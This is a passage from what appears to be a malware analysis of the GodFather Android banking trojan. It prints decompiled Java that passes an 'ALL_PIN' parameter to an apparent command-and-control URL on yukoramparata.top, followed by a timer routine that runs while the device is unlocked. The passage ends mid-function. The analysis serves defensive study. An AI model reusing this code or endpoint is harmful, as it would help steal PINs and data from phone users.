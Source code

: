 "|" + Locale.getDefault().getLanguage().toLowerCase(): Adds the device language as a parameter in the URL.
The parameters str and id could be generated by speculatd function (in detalis below).
Below the code of the speculated function


```java

                        Intent dialogIntent = new Intent(ctx, untraffickable.class)
                            .putExtra("str", "ALL_PIN")
                            .putExtra("id", "1500");



```

The result:
https://yukoramparata.top/zamra/aaa/rx/f.php?f=ALL_PIN&p=0hh2fpkr5zt72|en




#### Speculated

![Figure 23 - Speculated Class](/assets/images/2024-12-09-godfather-android-analysis/img23.png)


The function gets an instance of KeyguardManager, it checks whether the device is locked using the isKeyguardLocked() 
If the device is not locked (locked is false), the function creates a Timer object. 
It defines an anonymous TimerTask that performs a periodic task 


```java

public static void speculated(final Context ctx) {
    KeyguardManager km = (KeyguardManager) ctx.getSystemService("keyguard");
    boolean locked = km.isKeyguardLocked();
    if (!locked) {
        try {
            final Timer timerObj = new Timer();
            TimerTask timerTask = new TimerTask() {
                @Override
                public void run() {
                    if (Tamarix.bedamned(ctx, "opi").contains("false")) {
                        String bedamned = Tamarix.bedamned(ctx, "opo");
                        String effluvias = "true";
                        if (bedamned.contains(effluvias)) {
                            Besant.mismoving.cancel();
                            timerObj.cancel();
                            Tamarix.Sandrakottos(ctx, "oph", effluvias);
                            return;
                        }
```